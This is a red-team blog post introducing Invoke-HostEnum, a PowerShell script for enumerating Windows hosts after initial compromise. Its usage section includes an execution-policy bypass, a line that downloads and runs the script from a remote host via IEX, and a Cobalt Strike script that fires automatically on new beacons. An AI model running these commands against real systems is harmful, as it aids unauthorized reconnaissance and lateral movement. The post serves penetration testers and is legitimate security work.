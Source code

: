 # HostEnum - A PowerShell Host Situational Awareness Tool

**Andrew Chiles | May 2, 2017 | Tweet This Post: [:fontawesome-brands-twitter:](https://twitter.com/intent/tweet?url=http://threatexpress.com/2017/05/blogs/invoke_hostenum/&text=Invoke-HostEnum)**

## Overview

During a Red Team engagement, performing detailed Situational Awareness (SA) or enumeration on initial and subsequent host compromises is vital. Every good pen-tester or red teamer has their list of go-to scripts, commands, or "pasties" to run once initial shell access is achieved. The goal is to quickly learn as much about your environment as possible; including defenses, system configuration, interesting files, and opportunities for persistence and lateral movement. Moreover, when working in large and/or distributed teams, a common tool-base and procedure set is crucial to ensure that necessary enumeration is accomplished no matter who's behind the keyboard.

The first shell is often achieved on a host running the Microsoft Windows Operating System after a phishing/social-engineering attack or Web Application exploit. This makes PowerShell an excellent choice for automating post-exploitation and SA tasks. **Invoke-HostEnum** is a PowerShell 2.0 compatible enumeration script intended to be executed through a remote access capability such as Cobalt Strike's Beacon, Empire, or even a web-shell. All output is pre-formatted into Tables or Lists and converted to a string before returning results for this reason. Earlier internal versions of the script contained many more privilege escalation checks, but the continued development and robustness of [PowerUp][1] made these mostly redundant.

There are several good examples of PowerShell host enumeration tools including[ HostRecon][2] by Beau Bullock and [Invoke-WinEnum][3] in PowerShell Empire. Invoke-HostEnum borrows functions from these and other modules annotated throughout its source. There was a similarly named Invoke-HostEnum function in PowerView that was [removed][4] in 2015, but this is not a resurrected version.

I've started to remove many (but not all) binary dependencies to avoid triggering potential alerts from running numerous common built-in Windows command-line enumeration tools in rapid succession. However, there is always room for improvement and contributions and suggestions to the Github repository are highly encouraged!

## Features

The following is a comprehensive list of the items currently enumerated by Invoke-HostEnum. Some enumerations functions require local administrator rights for best results and will result in no or limited results when run under a limited user context.

- OS Details, Hostname, Uptime, Installdate, Architecture
- Installed Applications and Patches
- Network Adapter Configuration, Network Shares, Connections, Routing Table, DNS Cache
- Running Processes (with full command line) and Installed Services
- Interesting Registry Entries (SNMP strings, Saved Putty Sessions)
- Local Users, Groups, and Administrators
- Personal Security Product Status
- Interesting file locations (Current User Profile) and keyword searches via file indexing
- Recycle Bin Contents
- Interesting Windows Logs (Get-ComputerDetails – Logon Events, AppLocker logs, PowerShell logs, RDP servers)
- Basic Domain enumeration (users, groups, trusts, domain controllers, account policy, SPNs)-Explicit Credential Logons (Event ID 4648)

As usual, you can get the latest version of tools on our GitHub repository.

## Usage

### Command Line

Execute locally hosted script with console output

```
powershell -ep bypass -c Import-Module ./Invoke-HostEnum.ps1; Invoke-HostEnum -Local -Domain
```

Download and execute remotely hosted script

```
powershell -nop -c IEX (New-Object Net.Webclient).downloadstring("""http://yourdomain/Invoke-HostEnum.ps1""");Invoke-HostEnum -Local
```

Execute locally hosted script with HTML report output. If you want the mostly easily readable format and don't mind writing a file to disk, consider using the "-Path" option to specify a directory for an HTML formatted report

```
powershell -ep bypass -c Import-Module ./Invoke-HostEnum.ps1; Invoke-HostEnum -Local -Path c:programdata
```

![Invoke-HostEnum HTML Report][5] **Invoke-HostEnum HTML Report**

### Cobalt Strike

Import script and execute interactively in a Beacon console

```
powershell-import ./scripts/Invoke-HostEnum.ps1
powershell Invoke-HostEnum -Local -Domain
```

Automatic execution – Use [aggressor][6] script to fire upon new beacon arrivals. This is ideal to implement on your initial interactive/phishing callback Team Server where you want to gather information in the target environment and may be away from the console. Consider combining with a Slack notification script as described in our previous post [Slack Notifications for Cobalt Strike ][7]or as thoroughly explained by Jeff Dimmock in [Slack Bots for Trolls and Work][8]. **Note:** This code would require slight modification to work for DNS beacons if desired.

```bash
on beacon_initial {
    enumerate($1);
}

sub enumerate {
    if ( -exists script_resource("scripts/Invoke-HostEnum.ps1")) {
    binput($1,"[*] Executing Invoke-HostEnum");
    bpowershell_import($1, script_resource("scripts/Invoke-HostEnum.ps1"));
    bpowershell($1, "Invoke-HostEnum -Local -Domain");
    }
    else {
    berror($1, "Invoke-HostEnum.ps1 does not exist");
    }
}
```

![][9] **Invoke-HostEnum Execution in Cobalt Strike**

### **PowerShell Empire**

I've also created a basic post-exploitation module for Empire (hostenum.py) that makes executing on an Empire agent extremely easy.

Copy scripts to the appropriate Empire path

```
cp Invoke-HostEnum.ps1 /data/module_source/situational_awareness/host
cp hostenum.py /lib/modules/situational_awareness/host
```

Start Empire

```
# ./empire
```

Interact with agent

```
(Empire) > interact
```

Execute the module

```
(Empire: BX1HBE3MZAWGF1BB) > usemodule situational_awareness/host/hostenum
(Empire: situational_awareness/host/hostenum) > run
```

![][10] **Invoke-HostEnum Empire Module**

---

## Credits

Several functions are inspired or pulled directly from the following projects and are referenced in the code where applicable. Any omissions are not intentional. Thanks to the following authors and projects for the great work!

---

[1]: https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1
[2]: https://raw.githubusercontent.com/dafthack/HostRecon/master/HostRecon.ps1
[3]: https://github.com/EmpireProject/Empire/tree/master/data/module_source/situational_awareness/host
[4]: http://www.harmj0y.net/blog/redteaming/powerview-2-0/
[5]: /img/hostenum_console_html.png
[6]: https://www.cobaltstrike.com/aggressor-script/index.html
[7]: http://threatexpress.com/2016/12/slack-notifications-for-cobalt-strike/
[8]: https://bluescreenofjeff.com/2017-04-11-slack-bots-for-trolls-and-work/
[9]: /img/hostenum_cs.gif
[10]: /img/hostenum_empire1.png
[11]: /img/sanslogo.png
